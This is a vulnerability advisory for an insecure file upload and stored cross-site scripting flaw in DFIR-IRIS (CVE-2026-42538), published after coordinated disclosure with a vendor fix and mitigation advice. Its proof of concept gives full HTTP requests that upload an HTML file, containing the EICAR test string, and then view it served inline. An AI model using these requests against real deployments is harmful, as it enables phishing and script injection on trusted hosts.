

# DFIR-IRIS Insecure File Upload #

## Vulnerability Overview ##

The IRIS web application does not properly validate uploaded files.
It can therefore be misused to host phishing pages, amongst other things.
This also creates an instance of a Cross-Site Scripting (XSS) vulnerability.

* **Identifier**            : SBA-ADV-20260126-03
* **Type of Vulnerability** : Insecure File Upload
* **Software/Product Name** : [IRIS](https://www.dfir-iris.org/)
* **Vendor**                : [DFIR-IRIS](https://github.com/dfir-iris)
* **Affected Versions**     : <= 2.4.27
* **Fixed in Version**      : v2.4.28
* **CVE ID**                : CVE-2026-42538
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:L/A:N
* **CVSS Base Score**       : 7.6 (High)

## Vendor Description ##

> IRIS is a collaborative digital platform designed for incident response
> analysts to share complex investigations at a technical level. It can be
> installed on a dedicated server or as a portable application for roaming
> investigations where internet access might not be available.

Source: <https://docs.dfir-iris.org/2.4.24/>

## Impact ##

A user can be sent a trustworthy looking link pointing to an IRIS deployment,
but the site can contain arbitrary content controlled by the attacker. This
facilitates phishing attacks or can be used to steal credentials.
Furthermore, this becomes a *Stored XSS* vulnerability if the uploaded
document contains JavaScript code.

## Vulnerability Description ##

The affected web application allows files to be uploaded. Since the file type
is not fully validated, one could, for example, upload HTML files which are
delivered by the server afterward. This allows JavaScript code to be
injected, which is consequently executed in the victim’s browser.

## Proof of Concept ##

It was possible to upload an HTML file, without the server returning an error.

We can upload a file to the *Datastore* with the following request:

```http
POST /datastore/file/add/4?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJw[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Length: 973
Origin: https://myiris.local
Referer: https://myiris.local/case?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

------geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Disposition: form-data; name="csrf_token"

ImRmMTMzZTczYzAwZDRjMDk5ZjhiZWQ3MDViYTk0YmE4MDdiZDZjOTAi.aWjo_A.3PgouonWzZGwaYLNdXz9zavOsyw
------geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Disposition: form-data; name="file_description"


------geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Disposition: form-data; name="file_password"


------geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Disposition: form-data; name="file_tags"


------geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Disposition: form-data; name="file_content"; filename="my.html"
Content-Type: text/html

X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
------geckoformboundary5b6828525f841715b4fe739ae077f30d
Content-Disposition: form-data; name="file_original_name"

eicar.com.txt
------geckoformboundary5b6828525f841715b4fe739ae077f30d--

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 22 Jan 2026 13:17:57 GMT
Content-Type: application/json
Content-Length: 708
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "File saved in datastore ", "data": {"file_original_name": "my.html", "file_description": "", "file_id": 4, "file_uuid": "d701f84c-cdc4-446b-b7f6-606fa13eb5ad", "file_local_name": "/home/iris/server_data/datastore/Regulars/case-1/dsf-d701f84c-cdc4-446b-b7f6-606fa13eb5ad", "file_date_added": "2026-01-22T13:17:57.651515", "file_tags": "", "file_size": 68, "file_is_ioc": null, "file_is_evidence": null, "file_password": "", "file_parent_id": 2, "file_sha256": "275A021BBFB6489E54D471899F7DB9D1663FC695EC2FE2A2C4538AABF651FD0F", "added_by_user_id": 3, "modification_history": {"1768483077.651545": {"user": "pt2", "user_id": 3, "action": "created"}}, "file_case_id": 1}}
```

Afterward, the HTML is returned by the server just like an ordinary website:

```http
GET /datastore/file/view/4?cid= HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-Modified-Since: Thu, 22 Jan 2026 13:39:18 GMT
If-None-Match: "1768484358.2224905-60-2244025441"
Priority: u=0, i
Te: trailers
Connection: keep-alive

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 22 Jan 2026 13:40:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 126
Connection: keep-alive
Content-Disposition: inline; filename=xss.html
Last-Modified: Thu, 22 Jan 2026 13:40:21 GMT
Cache-Control: no-cache
ETag: "1768484421.4893377-126-2244025441"
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

<html>
    <body>
        I'm a trustworthy website.<br/>
        There is nothing to see here.
    </body>
</html>
```

The URL uses the host of the legitimate application, making a user believe
that it will contain trustworthy content.



## Recommended Countermeasures ##

We recommend updating to IRIS version 2.4.28 or later and checking whether
malicious files have already been uploaded.

IRIS should ensure that no more malicious files can be stored on the server.

The following measures must be implemented to address the security issue:

1. **Allowlist for MIME types**: An allowlist of allowed *Content-Types* must
be implemented and enforced.
2. **Allowlist for file names and file extensions**: An allowlist of allowed
file extensions must be implemented and enforced.
3. **Validation of the file type**: To determine with some degree of
certainty that the specified file type stated was actually uploaded, a check
of the MIME type should be performed.
4. **When displaying the upload**: To avoid direct display of active content
(e.g., HTML), the HTTP header `Content-Disposition: attachment` must be set.
This is especially important, if a limitation of the file type is not
possible due to business logic requirements.

A full discussion of effective (as well as ineffective) countermeasures is
described on the OWASP page “Unrestricted File Upload”.

## Timeline ##

* `2026-01-26` Identified the vulnerability in version 2.4.26
* `2026-01-30` Initial vendor contact via e-mail
* `2026-02-27` Second vendor contact via e-mail
* `2026-03-30` Report on GitHub due to a missing response from the vendor
* `2026-04-27` Version containing fix (v2.4.28) tagged by vendor
* `2026-04-28` GitHub assigned CVE-2026-42538
* `2026-05-04` Confirm fix for v2.4.28
* `2026-05-19` Public disclosure

## References ##

* OWASP. Unrestricted File Upload:
  <https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload>
* OWASP Cheat Sheet Series. File Upload Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html>
* OWASP Web Security Testing Guide (WSTG) v4.2. Test Upload of Unexpected File
  Types:
  <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/08-Test_Upload_of_Unexpected_File_Types.html>
* Common Weakness Enumeration. CWE-434 Unrestricted Upload of File with
  Dangerous Type: <https://cwe.mitre.org/data/definitions/434.html>

## Credits ##

* Michael Koppmann ([SBA Research](https://www.sba-research.org/))
* Mathias Tausig ([SBA Research](https://www.sba-research.org/))

The discovery of this vulnerability was made possible through support from
[CYSSDE](https://cyssde.eu/) and the European Union.


